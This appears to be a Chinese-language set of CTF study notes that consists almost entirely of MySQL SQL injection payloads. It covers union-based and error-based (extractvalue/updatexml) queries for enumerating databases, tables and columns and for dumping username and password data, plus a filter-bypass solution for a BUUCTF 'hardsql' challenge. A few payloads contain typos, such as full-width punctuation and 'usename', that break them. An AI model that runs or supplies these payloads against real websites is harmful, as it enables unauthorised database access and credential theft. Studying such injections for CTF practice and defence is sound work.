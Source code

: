 <!-- this is test; -->
### 4:union注入（适合有回显，例如输入1=1和1=2会有不同的回显）  
判断表字段数
?id=1' order by 3--+
判断回显位
?id=1' union select 1,2,3#
爆库
union select 1,2,group_concat(schema_name) from information_schema.schemata --+
爆表
union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='库名'--+
爆列名
union select 1,2,group_concat(column_name) from information_schema.columns where table_name='表名' --+
爆数据
id=-1' union select 1,2,group_concat(username,password) from 表名 --+

### 5：报错注入（数据库的报错有明显回显）

extractvalue() 函数

获取数据库名称及版本信息
?id=1' and extractvalue(1,concat(0x7e,database(),0x7e，version(),0x7e)) --+  
查库名  
'^extractvalue(1,concat(0x7e,(select(database()))))%23  
获取当前数据库位置  
?id=1' and extractvalue(1,concat(0x7e,@@datadir,0x7e)) --+  
爆列  
?id=1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_name='表名' limit 0,1),0x7e)) --+  
爆数据  
?id=1' and extractvalue(1,concat(0x7e,（select usename from users limit 0,1),0x7e)) --+  
爆表  
1'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='geek'))))  

updatexml() 函数\

爆库名  
?id=1' and updatexml(1,concat(0x7e,(database()),0x7e),1) --+  
爆表名  
?id=1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='库名' limit 0,1 ),0x7e),1) --+  
爆列名  
?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='表名' and table_schema='库名' limit 0,1 ),0x7e),1) --+  
爆数据  
?id=1' and updatexml(1,concat(0x7e,（select group_concat(usename,password) from 表名 limit 0,1),0x7e)) --+  

报错注入真实（buu hardsql）(过滤了空格和union和等号)  

1'^updatexml(1,concat(0x7e,(database()),0x7e),1)#
/check.php?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek')))))#  
1'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1')))))#  

extractvalue(1,concat(0x7e,(select(right(password,30))from(geek.H4rDsq1))))  

**robots.txt， robots.txt是一个协议,我们可以把它理解为一个网站的"管家",它会告诉搜索引擎哪些页面可以访问,哪些页面不能访问。也可以规定哪些搜索引擎可以访问我们的网站而哪些搜索引擎不能爬取我们网站的信息等等**

seliaze序列化与反序列化